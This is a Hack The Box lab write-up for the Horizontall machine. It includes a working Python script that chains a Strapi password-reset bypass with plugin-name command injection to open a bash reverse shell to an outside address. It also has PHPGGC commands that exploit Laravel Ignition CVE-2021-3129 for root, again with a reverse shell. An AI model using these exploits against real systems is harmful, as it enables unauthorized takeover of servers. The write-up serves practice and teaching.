

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.105 horizontall.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* http Server redirect to `horizontall.htb` 

found another subdoamin from burp site-map



Making request to `/reviews`

* api is running on [Strapi](https://strapi.io/) CMS

Found some endpoints from fuzzing
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://api-prod.horizontall.htb/FUZZ -X POST

# ... [snip] ...

email                   [Status: 403, Size: 60, Words: 1, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
upload                  [Status: 403, Size: 60, Words: 1, Lines: 1]


❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://api-prod.horizontall.htb/FUZZ

# ... [snip] ...

users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
```

`/admin` give 200 response



`/admin` made 2 requests from `/users-permissions/init` and `/admin/init` endpoints in background.



* This is a **development**.
* **strapiVersion:** `3.0.0-beta.17.4`

Found some vulnerabilities online.

* From GitHub Advisory Database [Privilege Escalation in strapi](https://github.com/advisories/GHSA-6xc2-mj39-q599): Versions of strapi prior to 3.0.0-beta.17.5 are vulnerable to Privilege Escalation. The password reset routes allows an unauthenticated attacker to reset an admin's password without providing a valid password reset token.

* From snyk database [Arbitrary Code Injection](https://snyk.io/vuln/SNYK-JS-STRAPI-536641): Affected versions of this package are vulnerable to Arbitrary Code Injection. The package fails to sanitize plugin names in the `/admin/plugins/install/` route. This may allow an **authenticated attacker** with admin privileges to run arbitrary commands in the server.
  * Exploit PoC Blog: https://bittherapy.net/post/strapi-framework-remote-code-execution/

# Foothold

## Improper Access Control

Affected versions of this package are vulnerable to Improper Access Control. It mishandles password resets within `packages/strapi-admin/controllers/Auth.js` and `packages/strapi-plugin-users-permissions/controllers/Auth.js`.

From fixed commit we can see that The issue was a lack of validation of the code parameter sent by the user: https://github.com/strapi/strapi/pull/4443/commits/e0424d4b880831dd643afff9c6ba475acdbae0be

Found reset passowrd request parameter from [`packages/strapi-admin/controllers/Auth.js`](https://github.com/strapi/strapi/blob/7a61db72851d3ddf3fef172b47100737eb075ceb/packages/strapi-admin/controllers/Auth.js#L206)



Sending crafted data in the POST request to `/admin/auth/reset-password`



And get admin user auth token.

Now we can login as admin with new reset passowrd



## Command Injection

Strapi CMS versions `<3.0.0-beta.17.8` Affected to Arbitrary Code Injection. The package fails to sanitize plugin names in the `/admin/plugins/install/` route. This may allow an authenticated attacker with admin privileges to run arbitrary commands in the server.

Based on https://bittherapy.net/post/strapi-framework-remote-code-execution/ blog PoC inject payload in `/admin/plugins/install` POST request with data `{"plugin":"documentation && $(<payload>)", "port":"80"}` executes as Arbitrary Code.




RCE python script
```py
import requests as r
import json

s = r.Session()
# Enable burp proxy
# s.proxies = {'http': 'localhost:8080'}
url = 'http://api-prod.horizontall.htb'

# Send Reset passowrd request to retrieve admin jwt token
reset_data = {"code": {}, "password": "p00rduck", "passwordConfirmation": "p00rduck"}
rspn = s.post(f"{url}/admin/auth/reset-password", json=reset_data)
json_pars = json.loads(rspn.content.decode())
print("[+] Reset Response: \n" + rspn.content.decode())

# Send reverse shell in plugins install request
s.headers = {'Authorization': f'Bearer {json_pars["jwt"]}'}
payload = {"plugin": "documentation && $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1')", "port": "80"}
try:
    rspn = s.post(f"{url}/admin/plugins/install", json=payload, timeout=10)
    print(rspn.text)
except r.exceptions.Timeout:
    print('[!] Exception: timeout')
    
s.close()
```

# Privesc

Found database creds from linpeas output



There are some services running on local ports
```bash
(remote) strapi@horizontall:/tmp$ ss -lntp | grep 127
LISTEN   4         128               127.0.0.1:1337             0.0.0.0:*        users:(("node",pid=1805,fd=31))
LISTEN   0         128               127.0.0.1:8000             0.0.0.0:*
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:* 
```

* Port 8000 is running **`Laravel v8 (PHP v7.4.18)`** fround with `curl`.
* Formward port 8000 with socat `./socat tcp-l:8001,fork,reuseaddr tcp:127.0.0.1:8000 &`.

Now we can access to local port 8000 from remote port 8001.

* `nuclei` found laravel debug mode is enabled.
* Also found CVE-2021-3129 in laravel. 

  

## Laravel <8.4.2 debug mode with Ignition <2.5.2 RCE

Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of `file_get_contents()` and `file_put_contents()`. This is exploitable on sites using debug mode with Laravel before 8.4.2. 

* PoC Detailed blog: https://www.ambionics.io/blog/laravel-debug-rce
* Exploit script: https://github.com/ambionics/laravel-exploits

How this happened is, `viewFile` parameter from `/_ignition/execute-solution` request is vulnerable for PHAR deserialization vulnerability.

**Generate PHAR payload using PHPGGC**
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id
```

**Execute Script**
```bash
./laravel-ignition-rce.py http://10.10.11.105:8001/ /tmp/exploit.phar
```




Get reverse shell with
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system '/bin/bash -c "bash -i >& /dev/tcp/10.10.15.71/4141 0>&1"'
```

